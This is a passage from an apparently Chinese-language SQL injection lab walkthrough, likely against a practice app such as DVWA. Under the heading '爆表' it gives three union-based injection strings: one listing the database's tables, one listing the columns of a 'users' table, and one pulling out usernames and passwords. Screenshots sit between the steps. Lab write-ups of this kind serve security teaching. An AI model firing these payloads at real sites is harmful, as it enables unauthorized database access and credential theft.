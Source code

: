 ![image-20220726164026849](assets/image-20220726164026849.png)

**5、爆表**

获取数据库中的表：　1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#　　

![image-20220726172852965](assets/image-20220726172852965.png)

获取表中的字段名：1' union select 1, group_concat(column_name) from information_schema.columns where table_name='users'#

![image-20220726173059311](assets/image-20220726173059311.png)

获得字段中的数据：　1' union select user,password from users#
